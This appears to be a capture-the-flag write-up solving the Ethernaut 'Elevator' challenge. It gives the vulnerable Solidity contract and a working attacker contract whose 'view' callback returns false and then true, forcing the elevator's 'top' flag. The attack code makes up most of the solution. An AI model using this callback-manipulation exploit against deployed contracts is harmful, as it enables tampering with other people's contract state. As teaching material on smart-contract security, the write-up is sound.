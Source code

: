 # Elevator

> This elevator won't let you reach the top of your building. Right?

> Things that might help:
> * Sometimes solidity is not good at keeping promises.
> * This Elevator expects to be used from a Building

```solidity
pragma solidity ^0.4.18;

interface Building {
  function isLastFloor(uint) view public returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

This one gave me a bit of trouble, although the game lists it as easier than challenges 5, 6 and 7.

The idea here is: the first `if` needs to get a `false` from the `isLastFloor` function, but the second needs to get `true`.

Wait a minute: `isLastFloor` is a `view` function, which means that:

> Functions can be declared view in which case they promise not to modify the state.```

How can we possibly make it return a different value while receiving the same argument if `isLastFloor` cannot modify state?

The answer is intuitive: we can't! There must be a way to modify state, even in `view` functions.

So I deployed this contract in Remix, setting `victim` to our instance's address:

```solidity
pragma solidity ^0.4.18;

contract Elevator {
  function goTo(uint _floor) public;
}

contract Caller {
    Elevator k;
    bool called;

    function isLastFloor(uint) public view returns (bool) {
        if(!called) {
            called = true;
            return false;
        } else {
            return true;
        }
    }

    function Caller(address victim) public {
        k = Elevator(victim);
    }

    function attack() public {
        called = false;
        k.goTo(1);
    }
}
```

The idea is simple: 
1. We deploy the Caller contract;
2. We call `attack`, which calls `goTo`. `goTo` calls `isLastFloor` and by then `called` is false, thus returning `false` and changing `called` to `true`;
3. `goTo` then calls `isLastFloor` again. Since `called` is `true`, now it returns `true`, setting our `top` correctly.

Let's check it then:

```javascript
await contract.top()
```

To my surprise it worked! Apparently Solidity does not enforce the write restriction on `view` functions, which may be used in many evil ways.
